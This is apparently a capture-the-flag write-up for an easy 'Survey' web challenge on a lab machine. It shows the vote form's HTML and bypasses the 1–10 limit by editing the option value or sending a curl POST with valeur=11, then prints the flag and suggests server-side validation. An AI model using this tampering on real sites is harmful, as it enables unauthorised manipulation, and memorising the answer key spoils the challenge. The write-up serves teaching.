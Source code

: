 # <span style="text-decoration: underline">Survey</span>

- Tags : `html`, `source code`, `form` , `POST`
- Server ip : `192.168.1.23 `
- Difficulty : <span style="color : green">Easy</span>
___

## <span style="text-decoration: underline">problem</span>
When we go to the `SURVEY` tab we see the following content
![survey index](/.resources/images/survey_index.png)

Here we can see a table where user can select a number between 1-10 by clicking the value on a `pick list` in the **Grade** column. When we select a value from the `pick list` the page get refreshed and nothing happens. When we see the source code of the table we can see the following

```html
<table width="50%" style="margin-left: auto; margin-right: auto;">
<caption><p>Make your choice</caption><br /><br /></p>
	<tbody>
		<tr bgcolor="Gray">
			<td align="center">Grade</td>
			<td align="center">Average</td>
			<td align="center">Subject</td>
			<td align="center">Nb of vote(<em>indicative</em>)</td>
		</tr>
			<tr bgcolor="Silver">
				<td align="center">
				<form action="#" method="post">
					<input type="hidden" name="sujet" value="2">
					<SELECT name="valeur" onChange='javascript:this.form.submit();'>
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</SELECT>
				</form>
			</td>
			<td align="center">
4214.23			</td>
			<td align="center">

Laurie			</td>
			<td align="center">
4260			</td>
		</tr>

			<tr bgcolor="Silver">
				<td align="center">
				<form action="#" method="post">
					<input type="hidden" name="sujet" value="3">
					<SELECT name="valeur" onChange='javascript:this.form.submit();'>
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</SELECT>
				</form>
			</td>
			<td align="center">
5.23529			</td>
			<td align="center">

Mathieu			</td>
			<td align="center">
17			</td>
		</tr>

			<tr bgcolor="Silver">
				<td align="center">
				<form action="#" method="post">
					<input type="hidden" name="sujet" value="4">
					<SELECT name="valeur" onChange='javascript:this.form.submit();'>
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</SELECT>
				</form>
			</td>
			<td align="center">
8.64707			</td>
			<td align="center">

Thor			</td>
			<td align="center">
17			</td>
		</tr>

			<tr bgcolor="Silver">
				<td align="center">
				<form action="#" method="post">
					<input type="hidden" name="sujet" value="5">
					<SELECT name="valeur" onChange='javascript:this.form.submit();'>
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</SELECT>
				</form>
			</td>
			<td align="center">
9.1			</td>
			<td align="center">

Ly			</td>
			<td align="center">
666			</td>
		</tr>

			<tr bgcolor="Silver">
				<td align="center">
				<form action="#" method="post">
					<input type="hidden" name="sujet" value="6">
					<SELECT name="valeur" onChange='javascript:this.form.submit();'>
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</SELECT>
				</form>
			</td>
			<td align="center">
6.969			</td>
			<td align="center">

Zaz			</td>
			<td align="center">
69			</td>
		</tr>
</table>
```
Here we can see two interesting things:

01. Each **Grade**  input is inside a form that does a `POST` request to the current page
02. When we select a value a `java script` function execute the `submit` function thus a submot request is sent.

!> The `hidden` input is not really importent for us.

## <span style="text-decoration: underline">Solution</span>

### Changing the value of the input field
Just like for the [recover](/recover?id=changing-the-value-of-the-input-field) challenge we can change the `html` `value` of one onf the `pick list` element (the list from 1-10) and select that value as our **Grade**

![survey modified value](/.resources/images/survey_index_modified_value.png)

And we get the following result

![survey flag](/.resources/images/survey_flag.png)

### Using [`Curl`](https://curl.se/)

Ofcorse the same request could be sent using `Curl` from our terminal and it would look like this

```bash
$ curl -s -d 'sujet=2&valeur=11' -X POST 'http://192.168.1.23/?page=survey'  | grep flag 
<center><h2 style="margin-top:50px;"> The flag is 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <div style="margin-top:-75px">
```

# How to avoid the problem
One way to avoid this problem would be a serverside checking of the data as we can control what we are sending.

# Flag

```text
03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa
```
